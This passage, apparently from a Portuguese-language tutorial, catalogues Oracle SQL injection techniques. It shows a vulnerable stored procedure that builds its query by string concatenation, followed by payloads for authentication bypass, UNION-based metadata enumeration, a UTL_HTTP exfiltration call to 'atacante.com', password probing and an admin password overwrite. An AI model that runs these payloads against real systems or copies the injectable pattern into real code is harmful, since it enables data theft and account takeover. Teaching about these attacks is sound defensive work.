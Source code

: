 - **Exemplo:**  
  ```sql
  CREATE OR REPLACE PROCEDURE consultar_usuario(p_usuario IN VARCHAR2) AS
  BEGIN
      EXECUTE IMMEDIATE 'SELECT * FROM usuarios WHERE usuario = ''' || p_usuario || '''';
  END;
  ```
  Entrada maliciosa:  
  ```sql
  ' OR '1'='1' --
  ```

---

#### **7. Exfiltração de Dados do Sistema Oracle**  
Exploração de tabelas do sistema para listar informações de metadados.  

- **Exemplo de entrada:**  
  ```sql
  ' UNION SELECT table_name, column_name FROM all_tab_columns WHERE table_name = 'USUARIOS' --
  ```
- **Uso comum:**  
  Identificar tabelas e colunas sensíveis para outros ataques.  

---

#### **8. SQL Injection com Funções Oracle**  
Funções específicas do Oracle, como `UTL_HTTP`, podem ser usadas para envio de dados para servidores externos.  

- **Exemplo de entrada:**  
  ```sql
  ' || UTL_HTTP.REQUEST('http://atacante.com?dados=' || nome) --
  ```

---

#### **9. Subqueries Maliciosas**  
Subqueries podem ser usadas para acessar dados que não fazem parte da consulta original.  

- **Exemplo de entrada:**  
  ```sql
  ' OR (SELECT senha FROM usuarios WHERE nome = 'admin') = 'senha_secreta' --
  ```

---

#### **10. Manipulação de Dados (Data Tampering)**  
Além de obter dados, o atacante pode usar SQL Injection para modificar ou excluir registros.  

- **Exemplo de entrada:**  
  ```sql
  '; UPDATE usuarios SET senha = 'nova_senha' WHERE nome = 'admin' --
  ```
- **Resultado:**  
  Modifica os dados do administrador para a nova senha fornecida.  

---